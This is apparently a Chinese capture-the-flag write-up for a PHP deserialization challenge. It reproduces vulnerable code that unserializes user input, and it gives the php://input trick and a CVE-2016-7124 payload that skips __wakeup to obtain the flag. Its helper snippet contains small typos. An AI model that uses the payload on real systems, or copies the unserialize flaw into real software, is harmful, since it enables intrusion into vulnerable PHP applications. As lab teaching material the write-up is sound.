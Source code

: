 # bestphp

我用的 php 版本是 5.6.9

题目是⼀道简单的 php 反序列化

```php
<?php
highlight_file("index.php");
$txt = $_GET['txt'];
$payload = $_GET['payload'];
$flag = getenv("GZCTF_FLAG");

if (isset($txt) && file_get_contents($txt, 'r') === "welcome to r00t"){
    echo "Have fun! <br>";
    class Hint{
        public $target = "hello";
        function __wakeup(){
            $this->target = "wakeup!";
            echo $this->target."<br>";
        }
        function __destruct(){
            echo $this->target."<br>";
            if($this->target === "r00t")
            {
                echo $GLOBALS['flag'];
                echo "<br> Congratulations! <br>";
            }
            else {
                echo "you are not r00t!";
            }
        }
    }
    $target = unserialize($payload);
    
}
else {
    echo "Try again! <br>";
}
?>
```

要求传入 2 个参数，txt 参数要求是文件，而且内容是 `welcome to r00t` 并且是强等于

那就可以用到 php 的伪协议 `php://input` 把原始数据通过 POST 传入，直接用 burp 访问 `?txt=php://input` 同时 POST 传入参数 `welcome to r00t` 如果返回'have fun'则说明进入了第一层

或者用 hackbar 但是要把 mode 改成 raw 模式：

![image-20240530154545759](img/image-20240530154545759.png) 

内部是一个 Hint 的 class 文件，有一个变量 target，两个函数 \_\_wakeup 函数和 \_\_destruct 函数，这两个是 php 的魔术方法：

> destruct 函数：在析构函数会在到某个对象的所有引用都被删除或者当对象被显式销毁时执行。
>
> wakeup 函数：在 unserialize() 会检查是否存在一个 wakeup() 方法。如果存在，则会先调用 wakeup 方法，预先准备对象需要的资源。

所以直接反序列化：

```php
<?php
	$flagFile = 'flag.txt';
	class Hint{
		public $target = "hello";
	}
	$a = new Hint();
	$a->target=r0ot;
	echo serialize(Sa);
?>
// 0:4:"Hint":1:{s:6:"target";s:4:"r00t";}
```

但是这样传递，在反序列化的时候，会调用 wakeup,他会把 target 变量赋值成 wakeup！

这样在析构函数的时候就不能通过了，可以通过

- PHP5 \< 5.6.25
- PHP7 \< 7.0.10

在这些版本中的 php 有这个 cve-2016-7124 漏洞，可以修改反序列化传递的参数，例如把 1 改成 2，使得 wakeup 函数被跳过，这个时候就可以正常执行，获得 flag

![image-20240530155231778](img/image-20240530155231778.png)

最终 payload `?txt=php://input&payload=O:4:"Hint":2:{s:6:"target";s:4:"r00t";}` 同时 POST 传递数据 `welcome to r00t` 